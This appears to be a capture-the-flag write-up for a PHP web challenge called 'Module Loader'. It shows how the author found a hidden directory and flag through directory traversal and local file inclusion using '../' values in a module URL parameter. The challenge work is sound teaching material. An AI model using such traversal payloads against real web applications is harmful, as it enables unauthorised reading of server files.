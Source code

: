 # Module Loader

## Problem

Since his students never know what date it is and how much time they have until the next homework's deadline, Mr P. H. Porter wrote a little webapp for that.
You can find it [here](https://school.fluxfingers.net:1522).

## Solution

Credit: [@emedvedev](https://github.com/emedvedev)

The app contains a simple module list:

![](loader.png?raw=true)

Clicking on "date" sends us to `https://school.fluxfingers.net:1522/?module=date` and outputs `Today: 2015-10-25` on the screen. There's also a comment in the app:

```
<!-- Modules are located in the 'modules' folder. Ask Mr Porter if you need more. -->
```

`https://school.fluxfingers.net:1522/modules/` reveal an Apache directory listing, indicating that module names in the URL are just links to files in the `modules` dir:

![](listing.png?raw=true)

Let's try directory traversal. `https://school.fluxfingers.net:1522/?module=../index.php` includes `index.php` in place of a module.

![](index.png?raw=true)

After a few guesses, turns out `../.htaccess` has something interesting:

```
# needs to be hidden from direct access <!--
# seems to be not working, though
#<Directory "3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae">
#    Options -Indexes
#</Directory>
# -->
```

Let's open the dir:

![](dir.png?raw=true)

Opening `flag.php` to get our flag:

```
not that easy, fella
```

Minor setback. Let's include the file through the `?module` argument: `https://school.fluxfingers.net:1522/?module=../3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae/flag.php` reveals the flag.

![](flag.png?raw=true)
